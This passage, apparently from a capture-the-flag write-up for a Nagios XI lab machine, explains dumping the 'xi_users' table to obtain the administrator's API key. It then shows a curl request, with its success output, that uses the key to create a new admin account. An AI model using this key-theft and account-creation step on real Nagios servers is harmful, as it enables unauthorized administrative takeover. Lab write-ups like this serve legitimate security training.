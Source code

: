 Fetch the entries for table **‘xi\_users’** in database **‘nagiosxi’**, you will find a **API KEY** of administrator to get administrator rights. Also you will find the hashes that looks like **bcrypt**.

Now we want to add a new user with the **API KEY** of administrator.

```
┌──(Batman㉿GC)-[~]
└─$curl -POST -k "https://nagios.monitored.htb/nagiosxi/api/v1/system/user?apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL&pretty=1" -d "username=nadmin&password=nadmin&name=nadmin&email=newadmin@monitored.htb&auth_level=admin"

{
    "success": "User account newadmin was added successfully!",
    "user_id": 21
}
```

Now you can login with new user.

<figure><img src=".gitbook/assets/1EsmJ7s60e8ziSPkSLXBgDQ.webp" alt=""><figcaption></figcaption></figure>

Go to **Configure > Core Config Manager**
